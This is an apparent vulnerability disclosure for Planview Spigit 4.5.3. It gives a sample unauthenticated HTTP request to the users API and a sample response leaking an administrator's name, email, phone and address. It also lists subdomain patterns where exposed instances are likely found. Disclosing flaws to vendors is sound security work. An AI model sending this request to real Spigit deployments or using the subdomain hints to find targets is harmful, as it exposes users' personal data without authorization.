 # Spigit Content Management Software by PlanView - Vulnerability Disclosure - CVE - Proof of Concept 
REST API in Planview Spigit 4.5.3 allows remote unauthenticated attackers to query sensitive user accounts data.

Sample request:

```
GET /PATH/api/v1/users/1 HTTP/1.1
Host: HOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 6


```
--
Sample Data:

```{"id":1,"user_name":"admin","first_name":"Spigit","last_name":"Administrator","primary_email":"donotuse@spigit.com","web_site":"","phone":"","mobile":"07071186473","fax":"","address1":"100 Rhosddu Rd","address2":"","city":"FERNHURST","state":"","zip":"GU27 0PL","country":"UK","bio":"not your business.","user_since":"2014-10-24T00:44:52Z","disabled":false,"super_admin":true,"identity_removed":false,"attributes":{},"links":[{"rel":"self","href":"https://HOSTg/api/v1/users/1"},{"rel":"user roles","href":"https://HOST/api/v1/users/1/roles"}]}```


This CMS is used by Fortune 500 companies and likely hosted on subdomains that start with idea.* ideas.* innovation.* projects.*

The purpose of this report is to get the Vendor to make Spigit secure by default, no unauthenticated nor unprivileged account should be able to query account details that are not visible by design on the CMS e.g. e-mail addresses, usernames.
